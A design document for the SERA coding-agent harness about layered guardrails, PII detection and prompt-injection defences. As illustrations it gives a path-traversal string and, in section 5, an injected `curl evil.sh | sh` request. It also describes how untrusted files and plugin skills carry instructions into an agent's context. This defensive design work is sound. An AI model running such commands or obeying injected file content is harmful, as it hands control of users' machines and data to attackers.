


# Guardrails, PII, and Why They Cost Almost Nothing

**Part of the [SERA Agent implementation plan](README.md).**

> The question this answers: how do systems like **Hermes** and **OpenClaw** enforce
> guardrails and PII handling while staying small and fast?

The answer is a single architectural inversion, and once you see it the performance
question mostly dissolves.

---

## 1. The inversion: guardrails are not in the model

Nous Research calls their approach **"neutral alignment"** — Hermes follows the system
prompt exactly rather than applying built-in content restrictions. Their stated position
is that *guardrails belong at the system level, not baked into the model weights.*

This is the whole answer to "how is it small and still performs":

| Where guardrails live | Cost |
|---|---|
| **In the weights** (RLHF refusal training) | Parameters spent on refusing rather than reasoning; behaviour you cannot inspect, version, or turn off per-context; every deployment pays for every other deployment's policy |
| **In the harness** (SERA's design) | A few hundred KB of compiled patterns and a permission table. **Zero** model parameters. Inspectable, versionable, testable, and per-context |

A 4B model with a good harness enforces policy more reliably than a 70B model with
policy in its weights — because the harness is *deterministic*. It does not have a bad
day, and it cannot be talked out of a decision.

**Consequence for SERA:** model choice becomes a pure quality/latency decision. Codex,
Antigravity and Ollama are interchangeable precisely because none of them is carrying
the safety layer.

---

## 2. The cascade: 99% of checks cost microseconds

The performance trick is that safety checks form a cascade. Cheap deterministic tests
resolve almost everything; only genuine ambiguity escalates.

Measured/expected cost per tier:

| Tier | Mechanism | Latency | Share of traffic resolved |
|---|---|---:|---:|
| 0 | Structural — path confinement, `extra="forbid"`, capability table | **~0.01 ms** | ~40% of *attacks*, 0% of normal traffic |
| 1 | Aho-Corasick multi-pattern scan | **~0.1–2 ms** | ~95% |
| 2 | Checksum + entropy validation | **~0.05 ms** | ~4% |
| 3 | Small classifier model | **~50–300 ms** | ~1% |
| 4 | Human approval | seconds | <0.1% |

**Weighted average: well under 2 ms.** That is why it does not show up in the latency
budget. The expensive tier exists but is almost never reached.

The mistake that makes guardrails slow is running Tier 3 on everything.

---

## 3. Tier 0 is the one that actually matters

**The cheapest guardrail is one you never have to evaluate.**

Content filtering asks "is this string dangerous?" — a hard, probabilistic question.
Capability restriction asks "can this tool do that at all?" — a trivial, deterministic
one.

| Content filtering (weak, slow) | Capability restriction (strong, free) |
|---|---|
| Detect `../../etc/passwd` in arguments | `resolve_in_project()` — the path *cannot* escape, so there is nothing to detect |
| Classify whether a shell command is destructive | `bash` is not in the registry unless the user enabled it |
| Detect an attempt to overwrite work | read-before-edit + hash guard makes it structurally impossible |
| Detect exfiltration | no network tool exists in the default registry |

This is already most of SERA's design — Phases 1, 4 and 7 in
[09-phases.md](09-phases.md) are capability restrictions, not filters. That is
deliberate. **`ToolSpec` is the guardrail layer**, and it costs a dictionary lookup.

OpenClaw's gateway does the same at a different altitude: authentication, signature
verification and access control at the boundary, with nodes declaring
`caps`/`commands`/`permissions` on connect and new device IDs requiring pairing
approval. Same idea — decide what is *possible* before worrying about what is *said*.

---

## 4. PII without the 300 ms

The reason Presidio costs 80–300 ms is spaCy NER, and NER is only needed for
**unstructured** PII (names, addresses). Splitting the problem is what makes it cheap.

### Structured identifiers — regex + checksum, ~0.1 ms

These have *mathematical structure*, which makes them nearly false-positive-free:

| Identifier | Validation beyond the regex |
|---|---|
| Credit card | **Luhn** checksum |
| IBAN | mod-97 |
| Emirates ID | checksum digit |
| Email | shape + TLD table |
| Phone (E.164) | country-code table + length |
| API keys / tokens | prefix (`sk-`, `ghp_`) + **Shannon entropy** |
| Private keys | `-----BEGIN` marker |

The checksum is what makes this viable. A bare 16-digit regex fires on order numbers and
git hashes constantly; a Luhn-validated one essentially does not.

### Unstructured PII — usually not your problem

For a **coding agent**, names and addresses are rarely the compliance risk; credentials
and keys are. So:

- Run structured detection **in the hot lane** (Tier 1–2).
- Run NER **in the cold lane** as an audit, and alert when it disagrees with the regex
  pass. You get the compliance evidence without paying for it on the critical path.

This is the two-lane pattern from [03-architecture.md](03-architecture.md) applied to
safety, and it is exactly why the lane split was worth building.

### Why pattern count is free

Use **Aho-Corasick**, not a loop of regexes. It builds one automaton over all patterns
and scans in a single pass:

| Approach | Cost for *k* patterns over *n* bytes |
|---|---|
| Loop of `k` regexes | **O(k · n)** — 500 patterns = 500 passes |
| Aho-Corasick | **O(n + matches)** — 500 patterns ≈ same cost as 5 |

That is how a secret scanner carries thousands of rules and still runs at hundreds of
MB/s. Python: `pyahocorasick`. Add a **Bloom filter pre-check** on short inputs to skip
the scan entirely when no trigger byte is present.

**Already available to you:** LangChain ships `PIIMiddleware` (verified installed in
this venv, `langchain/agents/middleware/pii.py`) with a `RedactionRule` /
`apply_strategy` model including a `block` strategy. That is your Tier 1 for free —
Presidio stays in the cold lane.

### Where to scan

**The egress boundary is the one that matters.** A local Ollama model seeing a secret is
a non-event; the same bytes going to a hosted provider is a disclosure. Scan on the way
*out*, and make the scan conditional on provider locality — which halves the cost for
local users.

---

## 5. Prompt injection: the coding agent's real threat

For a CLI agent this outranks PII. The agent reads files; a file can contain
instructions. The OpenClaw literature covers this directly — *Trojan's Whisper* studies
stealthy manipulation through injected bootstrapped guidance, and a security audit of
skills published to ClawHub found **roughly 12% contained malicious code**.

That 12% figure is the argument for deferring plugins to Phase 9. **Extensibility is the
attack surface.** An agent that loads third-party `SKILL.md` files into its context at
session start is loading untrusted instructions by design.

Mitigations, cheapest first:

1. **Structural framing (free).** Tool results are `ToolMessage`s, clearly delimited and
   marked as *data*. The system prompt states that file contents are never instructions.
   Costs zero tokens of latency.
2. **The permission gate (free).** This is the real defence. Injected text can *ask* for
   `bash(curl evil.sh | sh)`, but Phase 7 still routes it to a human. **Injection
   becomes a nuisance rather than a compromise** — that is the whole design goal.
3. **Provenance tracking (cheap).** Tag which tool result introduced a claim. If a
   `bash` call's justification traces to file content rather than user instruction,
   raise the approval bar.
4. **Egress control (cheap).** No network tool by default. Exfiltration needs a channel.

Note what is *not* on the list: a classifier that detects injection. Those are
unreliable, and capability restriction makes them mostly unnecessary.

---

## 6. Tier 3, when you need it

You already have the right model installed. `sera doctor` reported
**`gpt-oss-safeguard:latest`** in your Ollama library — an open-weight *safety
classifier*, not a chat model.

> This is worth flagging: the original `app/blueprints/agent/routes.py` used
> `gpt-oss-safeguard:latest` as the **chat** model. That is a category error — it is a
> policy classifier. It is the right model for Tier 3 and the wrong one for generation.

Rules for Tier 3:

- **Never on the critical path by default.** Only for inputs Tier 1 flagged as ambiguous.
- **Run it in parallel with generation**, not before. Start streaming; if the classifier
  trips, cut the stream. Users perceive a fast start far more than a rare retraction.
- **A separate small model**, never the user's provider. Policy evaluation must not
  depend on which back end they signed in with, or your guardrails vary by provider.
- **Cache by content hash.** Same input, same verdict.

---

## 7. What this means for the build

Nothing here is a new phase. It is a set of properties the existing phases must have.

| Phase | Guardrail obligation | Tier | Cost |
|---|---|---|---|
| **1** | `resolve_in_project()` chokepoint; `extra="forbid"` | 0 | ~0 |
| **1** | `ToolSpec.risk` / `roles` drive the permission table | 0 | ~0 |
| **2** | `PRUNE_DIRS` excludes `.git`, `.env`-bearing dirs from search | 0 | ~0 |
| **3** | Repair layer is itself a guardrail — malformed args never reach a tool | 0 | ~0 |
| **4** | read-before-edit + hash guard: structural anti-clobber | 0 | ~0 |
| **5** | **Egress scan before non-local providers** | 1–2 | ~1 ms |
| **6** | System prompt frames tool output as data, never instructions | 0 | ~0 |
| **7** | Human approval for HIGH risk; deny-list unbypassable in every mode | 4 | user time |
| **8** | Redact secrets before writing the JSONL session log | 1–2 | cold lane |
| **9** | **Plugin sandboxing before any third-party skill loads** | 0 | — |

Add one decision to the Phase 3 table in [09-phases.md](09-phases.md):

| # | Question | Options | Recommendation |
|---|---|---|---|
| 9 | Egress PII scanning | always / non-local providers only / off | **Non-local only.** Local Ollama needs no scan; hosted providers always do. Halves the cost for local users and puts it exactly where the disclosure risk is |

---

## 8. Summary

1. **Guardrails live in the harness, not the weights.** This is Hermes' explicit
   position, and it is why model size and safety are independent axes.
2. **Cascade the checks.** Deterministic tests resolve ~99%; the weighted average lands
   under 2 ms.
3. **Capability restriction beats content filtering.** The cheapest guardrail is one you
   never evaluate — and `ToolSpec` already is one.
4. **Split PII by structure.** Checksummed identifiers in the hot lane, NER in the cold
   lane as an audit.
5. **Aho-Corasick makes pattern count free.** O(n), not O(k·n).
6. **Scan at the egress boundary**, and only when the provider is remote.
7. **For a coding agent, prompt injection outranks PII** — and the permission gate,
   which you are building anyway, is the defence.
8. **Extensibility is the attack surface.** ~12% of audited ClawHub skills carried
   malicious code. Plugins stay in Phase 9 for a reason.

---

## Sources

- [Hermes 3 Technical Report — Nous Research](https://nousresearch.com/wp-content/uploads/2024/08/Hermes-3-Technical-Report.pdf)
- [Hermes 3 — Nous Research](https://nousresearch.com/hermes3)
- [NousResearch/Hermes-Function-Calling](https://github.com/NousResearch/Hermes-Function-Calling)
- [Gateway architecture — OpenClaw docs](https://docs.openclaw.ai/concepts/architecture)
- [Security — OpenClaw docs](https://docs.openclaw.ai/gateway/security)
- [A Security Analysis of the OpenClaw AI Agent Framework](https://arxiv.org/pdf/2603.27517)
- [Security, Privacy, and Ethical Risks in OpenClaw](https://arxiv.org/pdf/2605.23330)
- [Trojan's Whisper: Stealthy Manipulation of OpenClaw through Injected Bootstrapped Guidance](https://arxiv.org/pdf/2603.19974)
- [OpenClaw security: architecture and hardening guide — Nebius](https://nebius.com/blog/posts/openclaw-security)

---

← [Previous](11-tool-engine.md) · [Index](README.md)
